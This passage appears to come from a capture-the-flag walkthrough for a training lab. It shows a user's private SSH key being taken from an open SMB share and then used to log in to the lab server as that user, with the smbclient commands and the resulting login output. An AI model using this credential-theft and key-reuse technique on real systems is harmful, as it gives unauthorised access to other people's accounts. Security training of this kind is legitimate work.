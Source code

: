 ```
possible, employees should work from home. As such- your account has now been enabled with ssh
access to the main server.

If there are any problems, please contact the IT department at it@polointernalcoms.uk

Regards,

James
Department Manager 
```
So, the profile belongs to **John Cactus**.

What service has been configured to allow him to work from home?
- **ssh**.

Okay! Now we know this, what directory on the share should we look in?
- **.ssh**.

This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?
```bash
smb: \> cd .ssh
smb: \.ssh\> dir
  .                                   D        0  Tue Apr 21 07:08:23 2020
  ..                                  D        0  Tue Apr 21 07:08:23 2020
  id_rsa                              A     1679  Tue Apr 21 07:08:23 2020
  id_rsa.pub                          N      396  Tue Apr 21 07:08:23 2020
  authorized_keys                     N        0  Tue Apr 21 07:08:23 2020

                12316808 blocks of size 1024. 7584028 blocks available
smb: \.ssh\> get "id_rsa"
smb: \.ssh\> get "id_rsa.pub"
```

Download this file to your local machine, and change the permissions to "600" using "chmod 600 [file]". Now, use the information you have already gathered to work out the username of the account. Then, use the service and key to log-in to the server.

What is the smb.txt flag?
```bash
# cat the id_rsa.pub to see the username
$ cat id_rsa.pub                                                     
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDb7OaL8zLZ5Z8OU3wZPSIQHaoyI8Yc3I/8/Y6faWgYTZbfNPexli0jxdAeTeGy2X3XACWcB4HFejbiNsMYLjy517gwWKPBvN865i8uIQ0Gqayq/KmBHpuBbR0yX/SpyfyvzR3VD16pg/D+WT8hLaNHSYm6FNYLsmVnWDSJDBhS179czftuoW55mw/OqzWVr5ln9cKeeuXlNV1lqCjBqF3ClzEBvN4JW8GS/riLTeHcXeMIMUTuIpr4XovN/VivIlLqTYy7lHuUh6L2RqAfw5+FSr4QZW1zHCMoS6FooTomq/03EGJCGcp80/fT0e04n+7+PxnmvZQkOwe1A1hUG6C/ cactus@polosmb

# the username = cactus
# change the permission of id_rsa
$ chmod 600 id_rsa

# ssh to cactus@10.10.88.18
$ ssh cactus@10.10.88.18 -i id_rsa

Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-96-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  7 03:09:09 UTC 2021

  System load:  0.08               Processes:           92
  Usage of /:   33.3% of 11.75GB   Users logged in:     0
  Memory usage: 17%                IP address for eth0: 10.10.88.18
  Swap usage:   0%
```